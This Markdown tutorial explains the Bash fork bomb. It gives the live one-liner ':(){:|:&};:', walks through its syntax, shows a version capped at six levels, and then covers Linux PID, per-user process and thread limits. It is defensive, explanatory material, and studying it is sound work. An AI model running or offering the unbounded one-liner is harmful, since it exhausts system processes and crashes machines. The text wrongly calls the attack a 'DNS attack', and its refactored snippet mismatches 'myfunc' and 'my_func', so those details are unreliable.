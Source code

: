 # Fork Bombs 

```sh
:(){:|:&};:
```

## Breaking down the oneliner

### 1.  Function Definition

The oneliner, designed as a DNS attack, exponentially floods the process tree via recurisive function calls, how?

Well lets break it down:

```sh
#! /usr/bin/env bash
# Minified -> :(){:|:&};:

:() {
        : | : &

}

:
```

- `:() { ... }:` This defines a function named `:` (a colon). In Bash, function names can be arbitrary characters, and here `:` is used as the function name.

- Inside the function body:
    -  `:| : &`: This is the core of the fork bomb.
        - `:`: Calls the function itself. Since `:` is defined as a function, this recursively calls itself.
        - `|`: The pipe operator. It takes the output of the command on its left (`:`) and uses it as input for the command on its right (another `:`). Since the function `:` is called twice, it creates two processes.
        - `&`: Runs the command in the background. The `&` at the end of the command line means that the function `:` is executed in the background, allowing the script to continue running without waiting for the function to finish.

### 2. Function Invocation

```
:
```
- This line invokes the function `:`. When this is executed, it starts the recursive process of the function `:` calling itself, which rapidly consumes system resources.


### 3. Refactoring

We can see below that `myfunc` replaces `:`, so this should be more readable.

```sh
#! /usr/bin/env bash
myfunc() {

        my_func | my_func &

}

my_func
```

### 4. Exploring safely...

 - To explore this safely we are going to set limit within our fork bomb, that when it gets to the seventh iteration the fork will stop and close. Terminating all forked processes attached to the parent process, i.e the first time it is called. 

    ```sh
    #! /usr/bin/env bash

    fork_bomb(){
            local num=$1
            local name=$2
            printf '%-2d %-5s %s\n' "$num" "$name" 'running' >&2

            if ((num == 6)); then
                    return 0
            fi

            ((num++))
            fork_bomb "$num" 'left' | fork_bomb "$num" 'right' &
    }

    fork_bomb 0 'none'
    ```
    - The two locally defined variables `num` and `name` keep track of the iteration  and weither it was forked left or right of the pipe. This is for our purpose when viewing it in the terminal, as `printf` would indicate.
    - Saftey net is defined in the `if` block, when `num == 6` each process terminates
    - After the safety net we increment the iteration `((num++))`
    - the main part is the `fork_bomb "$num" 'left'...` which essentially replicates the `:|:&` where the `"$num"` and `left/right` is suppied for tracking. 
    - Lastly, the function is invoked for the first time via `fork_bomb 0 'none'`

- The output would look something like:

    ```
    $ bash explainable_fork_bomb.sh
    >
    0  none  running
    1  left  running
    1  right running
    2  left  running
    2  right running # happens 4 times
    ... 

    3  left  running ## happens 8 times
    3  right running 
    ...
    4  left  running # happens 16 times
    4  right running
    ...
    5  right running
    5  left  running # happens 32 times
    ...
    6  right running
    6  left  running # happens 64 times
    ```
- We actually prove that processes are spawned exponentially, following the base 2: 

    ```sh
    $  bash explained_fork_bomb.sh 2>&1 | sort | awk '{print $1}' | uniq -c
    > 
        1 0
        2 1
        4 2
        8 3
        16 4
        32 5
        64 6
    ```

    - Here you can see the first time around layer 0, there is 1 function call.
    - by the time we reach 6, we have 64 aka $2^6$

## Differences Between PID Limit, Max User Processes, and Max Threads

### 1. Process ID (PID) Limit

- **What it is**:  
    The Process ID (PID) is a unique identifier assigned to each running process on the system. The PID limit determines the maximum number of unique PIDs that can be assigned.

- **Configuration**:  
    This limit is set by the `max_pid` parameter in `/proc/sys/kernel`. You can view the maximum PID numerical value with:

    ```bash
    cat /proc/sys/kernel/pid_max
    ```

    This value defines the maximum PID number allowed on the system. For example, this means that your a process can have the PID upto the value of `4194304`, this does not mean you can have $2^{22}$ processes.

 - **Why it matters**:

    This limit ensures that the system does not run out of unique PIDs. If the number of processes reaches the PID limit, new processes cannot be created until existing ones exit and their PIDs are recycled.

### 2. Max User Processes (`ulimit -a`)

- **What it is:**

    The maximum number of processes a single user can create is controlled by the ulimit command. This is a user-level limit that restricts the number of processes that any single user can spawn.

    ```sh
    $ ulimit -a | grep "max user processes"
    >   
    max user processes                  (-u) 63562
    ```
    Incidentally, this obtained from the /proc/self/limits file, produce by the kernel:

    ```sh
    $ cat /proc/self/limits | grep "Max processes"
    > 
    Limit                     Soft Limit           Hard Limit           Units
    Max processes             63562                63562                processes
    ```

- **Why it matters**:

    This limit is crucial for managing system resources and preventing any single user from monopolizing process creation, which could impact the performance and stability of the system.

## 3. Max Threads (`/proc/sys/kernel/threads-max`)

- **What it is**:

    This parameter defines the maximum number of threads that can be created system-wide. Threads are the smallest unit of execution within a process.

- **Configuration**:

    You can check the current limit with:

    ```sh
    $ cat /proc/sys/kernel/threads-max
    > 127125
    ```

- **Why it matters**:

    This limit ensures that the system doesn’t get overwhelmed with too many threads, which could exhaust memory and other resources. It controls the maximum number of concurrent threads in the system, affecting performance and stability.

